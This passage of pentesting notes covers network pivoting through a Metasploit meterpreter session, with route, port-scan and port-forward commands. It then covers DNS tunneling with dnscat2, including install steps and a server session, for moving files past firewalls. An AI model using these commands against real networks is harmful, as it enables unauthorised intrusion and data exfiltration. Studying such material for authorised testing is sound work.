 Now we add the second network as a new route in metasploit. First we background our session, and then do this:

```
# the ip addres and the subnet mask, and then the meterpreter session
route add 192.168.1.101 255.255.255.0 1
```

Now we can run our portscanning module:

```
use auxiliary/scanner/portscan/tcp
```

### Attack a specific port

In order to attack a specific port we need to forwards it like this

```
portfwd add -l 3389 -p 3389 -r 192.168.1.222
```


## References


This is a good video-explanation:

https://www.youtube.com/watch?v=c0XiaNAkjJA

https://www.offensive-security.com/metasploit-unleashed/pivoting/

http://ways2hack.com/how-to-do-pivoting-attack/



# NEW: #TODO:

## DNS Tunneling

**Tunneling data over DNS to bypass firewalls.
**
dnscat2 supports “download” and “upload” commands for getting files (data and programs) to and from the target machine.

Attacking Machine


```

Installtion:

apt-get update
apt-get -y install ruby-dev git make g++
gem install bundler
git clone https://github.com/iagox86/dnscat2.git
cd dnscat2/server
bundle install

Run dnscat2:

ruby ./dnscat2.rb
dnscat2> New session established: 1422
dnscat2> session -i 1422
```
